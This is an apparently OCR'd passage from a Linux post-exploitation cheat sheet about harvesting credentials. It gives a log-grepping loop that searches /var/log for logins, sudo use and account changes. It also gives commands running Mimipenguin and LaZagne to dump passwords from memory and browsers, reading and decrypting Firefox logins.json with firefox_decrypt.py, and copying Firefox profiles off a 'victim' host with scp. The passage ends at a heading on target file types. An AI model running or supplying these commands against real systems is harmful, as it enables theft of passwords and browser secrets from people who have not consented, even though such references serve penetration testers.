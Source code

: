 ### Search Logs for Keywords (Optimized):

```bash
for i in /var/log/*; do
  if grep -Eq "accepted|session opened|session closed|failure|failed|ssh|password changed|new user|delete user|sudo|COMMAND=|logs" "$i" 2>/dev/null; then
    echo -e "\n#### Log file: $i"
    grep -E "accepted|session opened|session closed|failure|failed|ssh|password changed|new user|delete user|sudo|COMMAND=|logs" "$i" 2>/dev/null
  fi
done
```

---

## 🧠 Memory & Cache

### Mimipenguin

```bash
sudo python3 mimipenguin.py
```

### LaZagne

Without sudo:

```bash
python3 laZagne.py browsers
```

With sudo:

```bash
sudo python3 laZagne.py all
```

---

## 🌐 Browser Credentials (Firefox)

```bash
ls -l ~/.mozilla/firefox/ | grep default
cat ~/.mozilla/firefox/<profile>/logins.json | jq
python3 firefox_decrypt.py <ff_folder>
```

Or copy files from victim:

```bash
scp user@victim:/home/user/.mozilla/firefox/<profile>/* .
```

---

## 📁 Summary of Common Target File Types
